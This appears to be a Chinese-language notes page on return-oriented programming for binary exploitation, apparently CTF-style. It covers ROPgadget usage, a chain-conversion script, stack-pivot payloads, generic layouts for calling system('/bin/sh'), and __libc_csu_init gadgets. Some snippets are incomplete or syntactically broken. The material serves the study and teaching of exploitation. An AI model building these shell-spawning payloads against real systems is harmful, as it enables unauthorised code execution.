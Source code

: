 ## brop
http://www.scs.stanford.edu/brop/

## srop
https://www.freebuf.com/articles/network/87447.html
https://blog.csdn.net/qq_29343201/article/details/72627439

## ROPgadget
 1. ROPgadget 得到代码片断
 2. cd80c3 就是int0x80;ret,s使用`ROPgadget --binary {binaryname} --opcode cd80c3`来寻找
 3. 动态链接找不到 int 0x80,需要构造rop
 4. `ROPgadget --binary {binary_name} --ropchain`可以直接生成ROP chain，不过要转换一下
```py
rop = []
# i = 1
for line in open("ropc"):
    # print line,
    if "pack" in line and '+=' in line:
        print line
        # print i
        # print str(line).split(", ")[1].split(")")[0]
        rop.append(str(line).split(", ")[1].split(")")[0])
    if 'pack' not in line and '+=' in line:
        # print i
        # print line
        rop.append(str(line).split("+= ")[1][1:-2])
    # i += 1
i=0
while(i<len(rop)):
    if rop[i]=='/bin':
        rop[i]='0x6e69622f'
    if rop[i]=='sh':
        rop[i]='0x68732f2f'
    i+=1
print rop
```
### 寄存器赋值
构造栈结构
```
  *(pop eax ;ret)
  3
```
将eax赋值为3
### 栈转移
寻找 leave;ret;指令，然后更改ebp的值即可
```py
payload += p32(base_stage)
payload += p32(leave_ret)
#leave= mov esp,ebp,pop ebp
```
例子：将esp设置到bss段上
```py
payload = flat(
  [
  'A' * offset, # 覆盖到ret
  read_plt, # 读100个字节到base_stage
  ppp_ret, # pop esi ; pop edi ; pop ebp ; ret 清空参数
  0,
  base_stage,
  100,
  pop_ebp_ret, # 把base_stage pop到ebp中
  base_stage,
  leave_ret  #mov esp,ebp;pop ebp
  ]
)
cmd = "/bin/sh"
payload1= flat(
  [
    'A' *4 # 接payload1，ebp='AAAA'
    write_plt
    #...
  ]
)
```

## 通用技术
常用的栈布局如下
```py
# 32位
flat(
    [
    read_addr,
    system_addr,
    0, #read 函数一个参数 fd/system返回地址
    binsh_addr #read第二个参数/system第一个参数
    ]
)

flat([
        gets,
        system,
        buf,
        buf
        ])
# 64位
flat(
    [
        pop_edi,
        0, //read第一个参数 fd
        pop_rsi,
        binsh_addr, #read第二个参数 sh字符串地址
        pop_rdx, 
        20,      #read第三个参数 长度
        read_addr,
        pop_rdi, 
        binsh_addr,# system第一个参数
        system_addr,
    ]
)
```
## ret2libc
64下通用gadget,`__libc_csu_init`,一共两端代码，可以设置三个寄存器传参的值
```asm
;第一段代码gad1
  pop     rbx  ;必须为0
  pop     rbp  ;必须为1
  pop     r12  ;你call函数的地址(应该是got上的?)
  pop     r13  ;arg3
  pop     r14  ;arg2
  pop     r15  ;arg1
  retn         ;gad2
```

```asm
;第二段代码gad2
mov     rdx, r13
mov     rsi, r14
mov     edi, r15d
call    qword ptr [r12+rbx*8] call!!!
add     rbx, 1
cmp     rbx, rbp
jnz     short loc_400880
add     rsp, 8
pop     rbx
pop     rbp
pop     r12
pop     r13
pop     r14
pop     r15 ;这个地方可以构造错位gadgets,恰好可以构造为pop rdi,ret
retn     ;构造一些垫板(7*8=56byte)，因为后面后面还有很多pop+rbp+ret
```